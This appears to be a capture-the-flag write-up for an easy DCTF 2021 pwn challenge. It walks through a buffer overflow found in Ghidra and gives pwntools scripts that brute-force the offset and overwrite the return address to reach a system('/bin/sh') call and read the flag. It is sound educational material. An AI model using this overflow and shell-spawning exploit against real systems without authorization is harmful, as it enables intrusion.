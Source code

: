 ```yaml
---
title: Pwn sanity check
layout: post
author: v1per
date: 2021-05-17 18:53:00 +0530
type: Pwn
difficulty: easy
prompt: This should take about 1337 seconds to solve. nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
---
```


First, I used the file command on the **pwn_sanity_check** file. This is the output I got:

![](/images/v1per/dctfpsc1.png)

So, we know that it's a 64-bit LSB executable. Next, I opened the binary file usng **Ghidra**.
The main function looked like this:

![](/images/v1per/dctfpsc2.png)

I opened the **vuln()** function, and found this:

![](/images/v1per/dctfpsc3.png)

Here, I saw that the input is being taken using 'fgets' and stored in 'local_48'. Seeing this, the first thought which came to my mind was that this could be a buffer overflow challenge. In the next line I saw that if the value of 'local_c' is equal to '-0x21523f22', it prints out a text and calls the 'shell()' function. Let's open that:

![](/images/v1per/dctfpsc4.png)

It prints out that it is spawing the '/bin/sh process', but it doesn't really do anything except printing that. So, I guess that's a deadend.

Looking around further, I found a 'win()' function which looked interesting:

![](/images/v1per/dctfpsc5.png)

This function takes two parameters as input and compares their values and actually spawns a shell. Now, here I thought what if we could bypass the if conditions and directly go to the 'system("/bin/sh");' line.
I took note of the address of the line just before the line in which the shell was being spawned: **0x004006d6**

![](/images/v1per/dctfpsc6.png)

Now, we need to find the offset at which our control enters the win function, I used this python code to find it:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

n=0
while(True):
	error=False
	payload=b'A'*n+p64(0x004006d6)

	r=remote(host,port)
	r.sendline(payload)
	r.recvline()
	r.recvline()

	try:
		s=r.recvline()
	except:
		error=True

	if error:
		print(n,'Trying...')
	else:
		print(n,'is the offset')
		break
	n+=1
```

From this script, the offset came out to be **72**. Now, it's time to finally find our flag.
I ran this script:

```py
from pwn import *

host='dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
port=7480

payload=b'A'*72+p64(0x004006d6)

r=remote(host,port)
r.sendline(payload)
r.interactive()
```

And, yay! I got the shell.
I typed in 'ls' and saw that there's a flag.txt file in there, so i did a 'cat flag.txt' and got the flag!
```dctf{Ju5t_m0v3_0n}```

![](/images/v1per/dctfpsc7.png)